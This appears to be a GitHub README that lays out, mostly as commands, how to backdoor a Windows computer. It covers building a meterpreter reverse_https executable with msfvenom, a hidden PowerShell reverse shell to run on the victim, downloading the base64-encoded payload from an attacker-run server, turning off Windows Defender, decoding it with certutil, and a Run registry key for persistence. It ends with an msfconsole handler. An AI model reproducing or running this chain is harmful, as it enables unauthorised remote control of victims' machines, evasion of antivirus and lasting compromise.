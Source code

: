
## Create Backdoor
```
msfvenom -p windows/meterpreter/reverse_https lhost=[LISTENER_IP_ADDRESS] lport=[PORT]  -f exe -o backdoor.exe
```
## Encode Backdoor
Go to [Here](https://www.base64encode.org) to Encode Backdoor

## Netcat
``` bash
nc -lvnp [PORT]
```
## Victim
Run this in Victim Computer
``` powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('[LISTENER_IP_ADDRESS]', [PORT]);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
## Make Directory
Make Directory to save backdoor
``` powershell
mkdir C:\Users\[User_name]\AppData\LocalLow\Temp
```
## Use python to make server

``` powershell 
python -m http.server
```
## Download String base64 backdoor
Download String From Your Server Python
``` powershell
(New-Object System.Net.WebClient).DownloadString("http://192.x.x.x:8000/file-encode.txt") > file.txt
```
## Disable Windows Defender
``` powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Ddecode Base64

``` powershell
certutil -decode C:\Users\[USER_NAME]\AppData\LocalLow\Temp\file-encode.txt c:\Users\[USER_NAME]\AppData\LocalLow\Temp\decode.exe
```
## Create Regkey
Create a Regkey to execute Backdoor when start Windows 
``` powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name "Sys" -Value "C:\Users\[USER_NAME]\AppData\LocalLow\Temp\decode.exe" -PropertyType "String"
```
## Msfconsole
Run msfconsole

- Use exploit handler
``` msfconsole
use exploit/multi/handler
``` 
- Set Payload
``` msfconsole
set payload windows/meterpreter/reverse_https
```
- Set lhost
``` msfconsole
set lhost [LISTENER_IP_ADDRESS] 
```
- Set lport
``` msfconsole
set lport [PORT]
```
- Set ExitOnSession
```
set ExitOnSession false
```
- Exploit
``` msfconsole
exploit -j
```
## Unlock Backdoor
```powershell
Unblock-File -Path C:\Users\[USER_NAME]\AppData\LocalLow\Temp\decode.exe
```
## Execute Backdoor
```powershell
./decode.exe
```

